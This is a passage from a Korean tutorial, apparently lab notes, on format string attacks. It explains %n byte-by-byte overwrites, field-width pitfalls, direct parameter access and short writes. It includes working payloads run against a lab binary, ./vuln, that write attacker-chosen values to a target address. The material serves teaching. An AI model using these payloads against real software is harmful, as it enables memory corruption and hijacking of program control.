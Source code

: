<br>

근데 위를 보면 네 번째 바이트를 덮어쓸 때 사소한 문제가 있음. 

2바이트 차이가 나므로 ```%2x```를 했는데 2바이트가 아닌 8바이트가 출력되어 ```0x0e```가 저장되었음.

이렇게 된 이유는 **```%x``` 포맷 인자의 필드 길이 옵션은 최소값을 의미해 최소 8바이트는 무조건 출력되기 때문임**

**이 문제는 앞에서와 같이 큰 숫자를 입력해 256(2^8 = 256)보다 큰 수를 만들어 해결할 수 있음.**    
**이런 필드 길이 옵션의 한계를 알고 있어야 함.**

<br>

```console
0x108 - 0x06 = 258

./vuln 
$(printf "\xf4\x97\x04\x08JUNK\xf5\x97\x04\x08JUNK\xf6\x97\x04\x08JUNK\xf7\x97\x04\x08")
%x%x%161x%n%222x%n%91x%n%258x%n


test_val = 0x080497f4 = 134654925 0x0806abcd
next_val = 0x080497f8 = 285212675 0x11000003
```

<br>
<br>

```%n``` 부분에서 배웠던 **인자에 직접 접근하는 방법**을 통해 굳이 메모리를 건너뛰는 노력을 할 필요 없이 값을 덮어쓸 수 있음.

예를 들어, ```0x080497f4```에 ```0xbffffd72```를 저장한다고 하자.

<br>

```console
./vuln 
`python -c 'print "\xf4\x97\x04\x08" + "\xf5\x97\x04\x08" + "\xf6\x97\x04\x08" + "\xf7\x97\x04\x08"
+ "%98x%4$n%139x%5$n%258x%6$n%192x%7$n"'`


test_val = 0x080497f4 = -1073742478 0xbffffd72
```

<br><br>
<hr style="border: 2px solid;">
<br><br>

## short 쓰기 기법
<hr style="border-top: 1px solid;"><br>

short는 2바이트 워드임. 위에서 한 것은 4바이트 워드(DWORD)

포맷 인자는 short를 다루는 특별한 방법을 가지는데 우선 길이 변경자에 대해 알아보면 아래와 같음.

<br>

```
길이 변경자
     여기의 정수 변환은 d, i, o, u, x, X 인자에 대한 변환을 나타낸다.
     
     h     다음의 정수 변환은 short int나 unsigned short int 인자를 뜻한다.
           혹은 다음의 n 변환은 short int 인자를 가리키는 포인터를 뜻한다.
```
